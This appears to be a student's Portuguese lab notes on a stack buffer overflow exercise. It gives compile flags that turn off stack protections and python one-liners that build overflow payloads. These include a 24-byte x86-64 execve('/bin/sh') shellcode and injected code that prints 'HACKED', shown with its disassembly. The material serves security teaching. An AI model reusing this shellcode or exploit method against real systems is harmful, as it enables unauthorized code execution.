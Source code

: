 NOTA: Apenas corre utilizando o gdb

Video:

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/kXfYOLqtfGQ/0.jpg)](https://www.youtube.com/watch?v=kXfYOLqtfGQ)


Disable randomization
kali@kali:/media/sf_Shared_SegSoft-Kali/Protocolos/3-stack$ cat /proc/sys/kernel/randomize_va_space 
2

0 = disabled
1 = Conservative Randomization
2 = Full Randomization

Stack execution
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack

===============================================================================

loop infinito
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > badfile
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > smasher

===============================================================================

SHELLL NO GDB

Inicio do buffer: 0x00007fffffffcdc0

---------------------------------

\x6a\x3b\x58\x99\x52\x48\xbb\x2f -> shellcode
\x2f\x62\x69\x6e\x2f\x73\x68\x53 -> shellcode
\x54\x5f\x52\x57\x54\x5e\x0f\x05 -> shellcode

\xc0\xdf\xff\xff\xff\x7f\x00\x00 -> return (meter a apontar para a shellcode)

\x90\x90\x90\x90\x90\x90\x90\x90 -> ebp(?)

\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]

---------------------------------

Exploit shell:
	python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"' > smasher
	gdb stack
	run
Shell code:
	24 bytes -> char code[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";

===============================================================================

Executar loop sem nada dentro (a: goto a;)
python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x89\x7d\xfc\x48\x89\x75\xf0\xeb\xfe\x90"' > smasher
gdb stack
run

===============================================================================
HACKED

python -c 'print "\x90"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "A"*88' > smasher

python -c 'print "A"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x48\x83\xec\x20\x89\x7d\xec\x48\x89\x75\xe0\xc6\x45\xf8\x48\xc6\x45\xf9\x41\xc6\x45\xfa\x43\xc6\x45\xfb\x4b\xc6\x45\xfc\x45\xc6\x45\xfd\x44\xc6\x45\xfe\x0a\xc6\x45\xff\x00\x48\x8d\x45\xf8\x48\xba\x20\xea\xe4\xf7\xff\x7f\x00\x00\x48\x89\xc7\xb8\x00\x00\x00\x00\xff\xd2\xeb\xe6\x0f\x1f\x44\x00\x00"' > smasher
gdb stack
run

(88)
\x55
\x48\x89\xe5
\x48\x83\xec\x20
\x89\x7d\xec
\x48\x89\x75\xe0
\xc6\x45\xf8\x48
\xc6\x45\xf9\x41
\xc6\x45\xfa\x43
\xc6\x45\xfb\x4b
\xc6\x45\xfc\x45
\xc6\x45\xfd\x44
\xc6\x45\xfe\x0a
\xc6\x45\xff\x00
\x48\x8d\x45\xf8
\x48\xba\x20\xea\xe4\xf7\xff
\x7f\x00\x00
\x48\x89\xc7
\xb8\x00\x00\x00\x00
\xff\xd2
\xeb\xe6
\x0f\x1f\x44\x00\x00

0000000000401102 <main>:
  401102:       55                      push   %rbp
  401103:       48 89 e5                mov    %rsp,%rbp
  401106:       48 83 ec 20             sub    $0x20,%rsp
  40110a:       89 7d ec                mov    %edi,-0x14(%rbp)
  40110d:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  401111:       c6 45 f8 48             movb   $0x48,-0x8(%rbp)
  401115:       c6 45 f9 41             movb   $0x41,-0x7(%rbp)
  401119:       c6 45 fa 43             movb   $0x43,-0x6(%rbp)
  40111d:       c6 45 fb 4b             movb   $0x4b,-0x5(%rbp)
  401121:       c6 45 fc 45             movb   $0x45,-0x4(%rbp)
  401125:       c6 45 fd 44             movb   $0x44,-0x3(%rbp)
  401129:       c6 45 fe 0a             movb   $0xa,-0x2(%rbp)
  40112d:       c6 45 ff 00             movb   $0x0,-0x1(%rbp)
  401131:       48 8d 45 f8             lea    -0x8(%rbp),%rax
  401135:       48 ba 20 ea e4 f7 ff    movabs $0x7ffff7e4ea20,%rdx
  40113c:       7f 00 00 
  40113f:       48 89 c7                mov    %rax,%rdi
  401142:       b8 00 00 00 00          mov    $0x0,%eax
  401147:       ff d2                   callq  *%rdx
  401149:       eb e6                   jmp    401131 <main+0x2f>
  40114b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)


=================================================================================================

python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "<EXECUTA>"' > smasher

